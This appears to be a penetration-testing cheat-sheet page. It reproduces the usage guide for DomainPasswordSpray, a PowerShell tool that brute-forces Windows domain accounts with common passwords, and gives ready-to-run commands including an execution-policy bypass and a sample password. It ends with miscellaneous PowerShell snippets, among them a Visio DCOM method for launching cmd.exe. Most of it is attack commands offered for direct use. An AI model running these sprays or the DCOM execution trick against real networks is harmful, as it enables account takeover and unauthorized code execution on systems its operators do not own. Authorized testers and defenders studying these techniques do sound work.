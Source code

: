 #### DomainPasswordSpray (Internal Windows Domain Password Brute Forcing)

Source: https://github.com/dafthack/DomainPasswordSpray

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

##### Quick Start Guide
Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.
```
    Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.
```

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.
```
    PowerShell Invoke-DomainPasswordSpray -Password Winter2016
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt
```
    PowerShell Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

##### Invoke-DomainPasswordSpray Options
```
    UserList          - Optional UserList parameter. This will be generated automatically if not specified.
    Password          - A single password that will be used to perform the password spray.
    PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
    OutFile           - A file to output the results to.
    Domain            - A domain to spray against.
```

#### Misc Powershell Pasties

List Removeable Drives
```
    Get-WmiObject Win32_LogicalDisk | Where-Object {($_.DriveType -eq 2) -and ($_.DeviceID -ne 'A:')} | %{"USB_PROCESS_DETECTED: " + $_.ProviderName  + "`n"}
```

Random Execution Method
```
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("visio.application", "system1"))
$docs = $visio.Documents.Add("")
$docs.ExecuteLine('CreateObject("Wscript.Shell").Exec("cmd.exe")')
```
